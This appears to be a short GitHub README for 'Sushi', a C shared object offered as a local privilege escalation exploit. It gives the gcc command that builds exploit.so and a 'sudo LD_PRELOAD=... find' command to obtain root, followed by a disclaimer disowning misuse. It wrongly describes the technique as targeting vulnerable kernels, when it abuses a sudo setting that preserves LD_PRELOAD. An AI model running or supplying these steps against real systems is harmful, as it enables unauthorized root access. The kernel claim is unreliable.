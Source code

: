 # Sushi
Sushi すし, a shared object written in C language to perform LPE (Local Privilege Escalation) within vulnerable UNIX kernels using the LD_PRELOAD check

# Compile and run
- Use the following command to create the shared object:
`gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`
- Now use this shared object as a value for LD_PRELOAD and get root privileges:
`sudo LD_PRELOAD=/home/exploit.so find`

# DISCLAIMER
I'M NOT RESPONSIBLE FOR ANY MISUSE OF THIS PROGRAM, USE AT YOUR OWN RISK.
